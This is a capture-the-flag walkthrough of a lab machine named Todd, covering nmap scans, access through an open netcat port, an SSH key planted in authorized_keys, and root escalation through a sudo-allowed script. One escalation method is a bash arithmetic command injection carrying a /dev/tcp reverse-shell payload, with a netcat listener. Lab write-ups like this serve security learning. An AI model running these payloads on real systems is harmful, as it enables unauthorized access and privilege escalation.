 ```yaml
---
title: 'Todd'
description: 'How to get flags on Todd machine'
pubDate: 'June 12 2025'
heroImage: '../../assets/'
---
```


## Reconnaissance

### Initial Nmap Scan
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Second Nmap Scan Reveals Interesting Port
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Note: Port 7066 appears intermittently.

## Initial Access via Port 7066

### Persistent Connection Attempt
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### Establishing SSH Access
1. Generate SSH key on attacker machine:
```bash
ssh-keygen -t rsa -f todd
```

2. On target machine:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. Connect via SSH:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Checking Sudo Privileges
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### Analyzing guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### Method 1: File Creation Exploit
1. Create dummy files to increase probability:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Run the script repeatedly until successful:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### Method 2: Command Injection
1. Execute arbitrary commands through input:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Set up listener:
```bash
nc -vlnp 9001
```

### Explanation of Command Injection
The input `N[$(cat /root/root.txt)]` is interpreted in an arithmetic context, causing Bash to attempt evaluating the flag contents as arithmetic, which fails and reveals the flag content in the error message.

## Root Access
Use the credentials from /root/.cred to switch to root:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Or via the reverse shell obtained through command injection.
